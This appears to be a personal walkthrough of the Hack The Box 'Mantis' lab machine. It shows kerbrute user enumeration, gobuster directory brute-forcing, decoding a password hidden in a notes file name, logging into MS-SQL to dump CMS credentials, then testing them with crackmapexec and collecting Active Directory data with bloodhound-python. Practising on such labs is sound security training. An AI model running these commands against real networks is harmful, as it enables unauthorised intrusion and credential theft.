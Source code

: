 
```
Domain Name: HTB                                                              
Domain Sid: S-1-5-21-4220043660-4019079961-2895681657
```

```
kerbrute userenum -d htb.local --dc 10.10.10.52 userlist.txt -t 100
```

```
james@htb.local
James@htb.local
administrator@htb.local
mantis@htb.local
JAMES@htb.local
Administrator@htb.local
Mantis@htb.local
```

![[Pasted image 20240515233953.png]]


We have to go Old School as this machine is hard and we need a entry point to get into.
We have 2 domain controller and 3 http sites which simply means that we have to do directory busting.

```
http://10.10.10.52:1337/secure_notes/
```


```
gobuster dir -u http://10.10.10.52:1337 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

![[Pasted image 20240516015043.png]]
![[Pasted image 20240516003001.png]]

We already have the valid user names so in short we have the usernames and all we need is a password to get into.


```
1. Download OrchardCMS
2. Download SQL server 2014 Express ,create user "admin",and create orcharddb database
3. Launch IIS and add new website and point to Orchard CMS folder location.
4. Launch browser and navigate to http://localhost:8080
5. Set admin password and configure sQL server connection string.
6. Add blog pages with admin user.


Credentials stored in secure format
OrchardCMS admin creadentials 010000000110010001101101001000010110111001011111010100000100000001110011011100110101011100110000011100100110010000100001
SQL Server sa credentials file namez
```

If you the file names seems fishy to mee
```
ev_notes_NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx.txt.txt
```


It's some kind of password
```
6d2424716c5f53405f504073735730726421
```
![[Pasted image 20240516005334.png]]


We got the password of the MS-SQL user.
```
m$$ql_S@_P@ssW0rd!
```
![[Pasted image 20240516005420.png]]

I just want to see if we can login with this into smb but failed
```
crackmapexec smb 10.10.10.52 -u ~root/HackTheBox/Mantis/valid_user.txt -p m$$ql_S@_P@ssW0rd!
```


We have to login into the sql server and i have to find the command for it

Tried this command but it didn't worked
```
mysql -h 10.10.10.52 -P 50255 -u admin -p 'm$$ql_S@_P@ssW0rd!'
```

I have installed a GUI base software to handle this stuff
![[Pasted image 20240516011427.png]]


![[Pasted image 20240516013029.png]]


```
Hostname: 10.10.10.52
Database: orcharddb
Password: m$$ql_S@_P@ssW0rd!
```

It worked finally and i was able to download the database
![[Pasted image 20240516014152.png]]


We got the database we want
![[Pasted image 20240516014208.png]]
Now will search for passwords

Will simply search for Users
![[Pasted image 20240516015532.png]]

Select data and we get the password
```
james@htb.local
```

```
J@m3s_P@ssW0rd!
```

```
admin
```

```
AL1337E2D6YHm0iIysVzG8LA76OozgMSlyOJk1Ov5WCGK+lgKY6vrQuswfWHKZn2+A==
```

![[Pasted image 20240516015649.png]]


```
crackmapexec smb 10.10.10.52 -u james -p 'J@m3s_P@ssW0rd!' --shares
```
![[Pasted image 20240516015931.png]]

I have not able to get shell with evil-winrm or psexec let's change the approach and try 
ldap and bloodhound.


```
bloodhound-python -d htb.local -u james -p 'J@m3s_P@ssW0rd!' -ns 10.10.10.52 -c all 
```
![[Pasted image 20240516022525.png]]

